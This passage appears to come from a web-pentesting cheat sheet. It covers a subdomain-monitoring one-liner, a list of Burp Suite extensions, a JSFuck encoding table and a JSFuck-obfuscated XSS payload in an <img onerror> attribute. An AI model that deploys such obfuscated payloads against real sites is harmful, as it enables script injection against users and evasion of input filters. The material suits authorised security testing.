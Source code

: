 
### Monitoring Oneliner

```console
$ while :; do echo <DOMAIN> | haktrails subdomain | anew subdomains.txt; sleep 86400; done | notify
```

## Burp Suite Extensions

* JS Link Finder
* Upload Scanner
* Turbo Intruder
* HTTP Request Smuggler
* Auth Analyzer

## JavaScript

### JSFuck

> http://www.jsfuck.com/

> https://github.com/aemkei/jsfuck

> https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

```javascript
![]                                          // false
!![]                                         // true
[][[]]                                       // undefined
+[![]]                                       // NaN
+[]                                          // 0
+!+[]                                        // 1
!+[]+!+[]                                    // 2
[]                                           // Array
+[]                                          // Number
[]+[]                                        // String
![]                                          // Boolean
[]["filter"]                                 // Function
[]["filter"]["constructor"]( <CODE> )()      // eval
[]["filter"]["constructor"]("<FOOBAR>")()    // window
```

#### Encoded Payload

```javascript
<img src onerror="(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]) [+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]++[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]">
```

## Enumerate Subdomains, Web Servers and API Endpoints
